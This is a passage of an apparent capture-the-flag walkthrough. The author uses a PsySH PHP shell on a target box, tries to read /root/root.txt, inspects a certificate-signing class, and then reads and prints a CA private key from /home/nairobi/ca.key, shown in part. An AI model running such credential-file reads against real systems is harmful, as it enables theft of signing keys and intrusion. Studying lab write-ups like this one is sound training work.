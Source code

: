 ```
  doc        Read the documentation for an object, class, constant, method or property.   Aliases: rtfm, man             
  show       Show the code for an object, class, constant, method or property.                                           
  wtf        Show the backtrace of the most recent exception.                             Aliases: last-exception, wtf?  
  whereami   Show where you are in the code.                                                                             
  throw-up   Throw an exception or error out of the Psy Shell.                                                           
  timeit     Profiles with a timer.                                                                                      
  trace      Show the current call stack.                                                                                
  buffer     Show (or clear) the contents of the code input buffer.                       Aliases: buf                   
  clear      Clear the Psy Shell screen.                                                                                 
  edit       Open an external editor. Afterwards, get produced code in input buffer.                                     
  sudo       Evaluate PHP code, bypassing visibility restrictions.                                                       
  history    Show the Psy Shell history.                                                  Aliases: hist                  
  exit       End the current session and return to caller.                                Aliases: quit, q            

```
sudo immediately stands out, but unfortunately it does not work:
```
sudo $thoseguys = file_get_contents("/root/root.txt");            
PHP Warning:  file_get_contents(/root/root.txt): failed to open stream: Permission denied in phar://eval()'d code on line 1
```
It doesn’t look like history works either. Trying ls does return something though:
```
ls
Variables: $tokyo
```

Help tells us that we can use the show command to see what the value of that variable is:
```
show tokyo
  > 2| class Tokyo {
    3| 	private function sign($caCert,$userCsr) {
    4| 		$caKey = file_get_contents('/home/nairobi/ca.key');
    5| 		$userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6| 		openssl_x509_export($userCert, $userCertOut);
    7| 		return $userCertOut;
    8| 	}
    9| }
```
Looks like it is pulling a ca key and generating a certificate for something. Lets use this opportunity to pull that key down.
```
file_get_contents('/home/nairobi/ca.key');
=> """
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
   uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M\n
   YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp\n
   s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us\n
   PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V\n
```